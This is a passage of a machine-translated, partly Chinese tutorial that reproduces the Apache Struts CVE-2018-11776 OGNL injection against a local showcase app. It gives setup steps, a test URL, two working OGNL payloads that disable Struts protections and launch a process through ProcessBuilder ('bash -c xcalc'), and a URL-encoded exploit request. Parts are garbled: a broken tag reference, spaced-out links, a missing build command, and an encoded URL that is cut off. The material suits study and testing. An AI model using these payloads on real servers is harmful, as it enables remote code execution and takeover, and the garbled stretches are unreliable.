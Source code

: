 3.  编辑 XML 文件，如`./src/apps/showcase/src/main/resources/struts-actionchaining.xml`

4.  并修改< 【 > tag to have the following value:

```
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name = "actionName">register2</param>
      </result>
    </action>
  </package>
</struts>
```

This allows us to use the  **struts2-showcase** 应用作为目标。要编译它，必须执行以下步骤:

1.  `cd src/apps/showcase/` #转到 Showcase 目录

2.  编译它(并跳过测试)

3.  `cp target/struts2-showcase.war /var/tomcat/webapps/` #复制到 Tomcat

现在，我们可以通过在 web 浏览器中加载以下内容来检查应用程序是否易受攻击:

`http://127.0.0.1:8080/struts2-showcase/${22+22}/actionChain1.action`

我们应该会重定向到[http://127 . 0 . 0 . 1:8080/struts 2-showcase/](http://127.0.0.1:8080/struts2-showcase/44/register2.action)[**44**](http://127.0.0.1:8080/struts2-showcase/44/register2.action)[/register 2 . action](http://127.0.0.1:8080/struts2-showcase/44/register2.action)

包含大量技术实现细节的工作漏洞可在[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776-exploit)获得。为了利用这个漏洞，我们使用了用 C 语言编写的[漏洞。](https://github.com/Semmle/SecurityExploits/blob/master/Apache/Struts/CVE-2018-11776/struts-attacker/src/startcalc.c)

我们需要发送两个请求，并在 URL 中编码以下有效负载:

```
1.${(#_=#attr['struts.valueStack']).(#context=#_.getContext()).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}
```

```
2.${(#_=#attr['struts.valueStack']).(#context=#_.getContext()).(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#context.setMemberAccess(#dm)).(#sl=@java.io.File@separator).(#p=new java.lang.ProcessBuilder({'bash','-c',**'xcalc'**})).(#p.start())}
```

利用是这样发生的:

```
3\. http://127.0.0.1:8080/struts2-showcase/%24%7B%28%23_%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23context%3D%23_  .getContext%28%29%29.%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container

%27%5D%29.%28%23ognlUtil%3D%23container

.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.setExcludedClasses

%28%27%27%29%29.%28%23ognlUtil

.setExcludedPackageNames%28%27%27%29%29%7D/actionChain1.action](http://127.0.0.1:8080/struts2-showcase/$%7B(%23_%3D%23attr%5B'struts.valueStack'%5D)

.(%23context%3D%23_.getContext()).(%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).
(%23ognlUtil%3D%23container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).

(%23ognlUtil.setExcludedClasses('')).
```